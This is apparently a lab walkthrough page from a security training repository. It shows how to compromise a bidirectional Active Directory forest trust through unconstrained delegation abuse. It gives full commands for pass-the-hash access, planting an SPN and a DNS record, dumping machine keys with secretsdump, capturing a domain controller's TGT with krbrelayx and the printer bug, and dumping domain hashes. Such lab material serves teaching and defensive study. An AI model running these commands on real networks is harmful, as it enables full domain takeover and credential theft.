

repository: netexperiments/wadsecurity · page: labs/multi-domain-attacks/ForestTrustsAttack/index.html · generator: mkdocs

#Attacking Forest Trusts

In this attack, we'll target an inter-forest trust relationship: The Forest trust between the sirius and altair domains.
An SID injection attack won't work by default on these trusts, since SID Filtering is enabled. What can work is, for example, Unconstrained Delegation Abuse.

We've tackled this attack on the Unconstrained Delegation Abuse section. This time, we'll use CHIEF as the compromised service account, and KING as the victim. DC's are both allowed for unconstrained delegation and allow their account to be delegated through delegation mechanisms in Kerberos. Also, in order for this attack to work, the forest trust must allow Kerberos tickets to be delegated, as well as being a bidirectional trust relationship. One-way forest trusts, or forest trusts that do not allow ticket delegation cannot be attacked in this manner. 

Through the use of the ldeep tool, we understand that delegation is enabled in the forest trust, due to the presence of the CROSS_ORGANIZATION_ENABLE_TGT_DELEGATION flag in the trustAttributes attribute. We can also determine that the trust is bidirectional. We can check again:
```
ldeep ldap -u skyler.white -p 'Password123' -d north.altair.local -s ldap://192.168.122.30 trusts
```

Let's then setup the Unconstrained delegation abuse scenario. First, we'll access the CHIEF machine as an Administrator (we've already compromised it on Trustpocalypse for example) through the wmiexec.py script. Then we'll create a new SPN as well as a DNS record resolving the SPN’s hostname to the attacker’s IP.
```
#remember to use the hashes from your own environment, this is just an example.
#the wmiexec.py script allows the attacker to issue commands to the target machine
wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:a87f3a337d73085c45f9416be5787d86 -no-pass ALTAIR/Administrator@chief.altair.local
#create an SPN record
powershell -Command "SetSPN -A HOST/attackingforest.altair.local CHIEF$"
#check the newly created SPN
powershell -Command "SetSPN -L CHIEF$" 
#create a DNS record for the SPN that points to the attacker's machine
powershell -Command "Add-DnsServerResourceRecordA -Name "attackingforest" -ZoneName "altair.local" -IPv4Address 192.168.122.2 -TimeToLive 01:00:00"
#check DNS record
powershell -Command "nslookup attackingforest.altair.local"
```

Now there’s an SPN associated to the CHIEF domain controller, which resolves to the attacker's machine due to the DNS record. This will be how we’ll trick the KING domain controller to send us its TGT. It is supposedly authenticating to a service pertaining to the CHIEF domain controller, thus it sends its TGT to the service (since CHIEF's configured for unconstrained delegation). Then, it will resolve the SPN through DNS, and end up sending the TGT to the attacker’s machine.

What's left for the attacker to do is to coerce KING authentication, using the printer bug, and extract KING's TGT from Kerberos messages. Once the attacker holds this TGT, the sirius domain can then be compromised, since the attacker can impersonate the KING DC.

```
#retrieve CHIEF's aes key that will be used to cipher the TGT sent by KING
#the kerberos ticket used here was retrieved in the Trustpocalypse attack. Please execute that attack first.
secretsdump.py -k -no-pass berntheman@chief.altair.local
#[+]ALTAIR\CHIEF$:aad3b435b51404eeaad3b435b51404ee:143b50cff65b459efa236693abbb4017:::
#[+]CHIEF$:aes256-cts-hmac-sha1-96:edeb40f907993b6316c58d7a723bd69035ce635dd52f22abb5892daa700df615
#now let's start krbrelayx script. We'll have to stop the DNS service in our machine, the script will need to use that port
#remember that the hash values may differ. Use your own hash values.

#in one terminal
#navigate to the krbrelayx directory
systemctl stop systemd-resolved 
#use CHIEF$:aes256-cts-hmac-sha1-96 value here
sudo -E python3 krbrelayx.py -aesKey edeb40f907993b6316c58d7a723bd69035ce635dd52f22abb5892daa700df615

#now, trigger the printer bug from a different terminal
#use CHIEF hash values here, which you can also retrieve from the secretsdump script output
python3 printerbug.py --verbose -hashes aad3b435b51404eeaad3b435b51404ee:143b50cff65b459efa236693abbb4017 altair.local/CHIEF\$@king.sirius.local attackingforest.altair.local

#in the end we can turn DNS on our machine on again
systemctl start systemd-resolved 
```

And there it is, the krbrelayx script has retrieved KING's TGT! By stealing KING’s TGT, the attacker can now impersonate the Domain Controller of the sirius domain, allowing full compromise of sirius through tools like secretsdump.

```
export KRB5CCNAME=/home/ubuntu/krbrelayx/KING\$@SIRIUS.LOCAL_krbtgt@SIRIUS.LOCAL.ccache
secretsdump.py -k -no-pass -just-dc-ntlm sirius.local/KING\$@KING.sirius.local
```
